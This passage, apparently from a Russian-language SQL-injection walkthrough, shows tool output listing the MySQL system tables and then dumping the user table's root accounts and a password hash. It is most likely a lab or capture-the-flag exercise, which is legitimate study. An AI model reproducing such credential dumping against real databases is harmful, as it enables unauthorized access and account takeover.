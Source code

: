 ```bash
| func                      |
| general_log               |
| help_category             |
| help_keyword              |
| help_relation             |
| help_topic                |
| ndb_binlog_index          |
| proc                      |
| procs_priv                |
| proxies_priv              |
| servers                   |
| slow_log                  |
| tables_priv               |
| time_zone                 |
| time_zone_leap_second     |
| time_zone_name            |
| time_zone_transition      |
| time_zone_transition_type |
+---------------------------+
```

У таблицы `user` 42 колонки, меня интересует `User` `Password`
```bash
Database: mysql
Table: user
[6 entries]
+--------+
| User   |
+--------+
| root   |
| root   |
| root   |
| root   |
|
|
+--------+

Database: mysql
Table: user
[6 entries]
+-------------------------------------------+
| Password                                  |
+-------------------------------------------+
| *B04E65424026AC47B5626445B67352EBEFD78828 |
|
|
|
|
|
+-------------------------------------------+
```
